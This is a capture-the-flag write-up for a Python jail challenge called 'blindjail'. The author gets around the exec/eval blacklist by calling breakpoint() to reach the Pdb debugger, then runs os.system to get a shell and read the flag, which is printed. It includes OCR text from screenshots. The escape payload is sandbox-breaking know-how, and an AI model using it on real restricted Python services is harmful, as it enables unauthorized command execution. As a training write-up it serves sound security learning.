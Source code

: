# blindjail
> There is no escape, sometimes going in blind makes other attributes stronger.

## About the Challenge
We were given a server to connect where we can execute a python code (Classic PyJail) but there are some filter like we can't use `exec()` or `eval()` function 


[Image extracted text: WELCOME
To
THE
BLINDJAIL
fret
not
that
you
cannot
see,
fret
that
you
cannot
leave
>>>
exec
Nope
exec
is
banned !
>>>
eval
Nope
eval
is
banned !
>>>
print(1)
1
>>>]


## How to Solve?
I tried several function and luckily the program didn't blacklist `breakpoint()` function. So the final payload will be like this

```python
breakpoint()
...
import os
os.system("sh")
```

[Image extracted text: WELCOME
To
THE
BLINDJAIL
fret
not
that
cannot
see,
fret
that
you cannot
leave
>>>
breakpoint ( )
~~Return-
<string>(1) <module> ( )->None
(Pdb)
import
05
(Pdb)
0s . system( "bash" )
1s
txt
main.py
cat flag.txt
nitectf{sl1d3_Over_th3se_ttribut3s}]
you
flag.]


```
nitectf{sl1d3_0ver_th3se_4ttribut3s}
```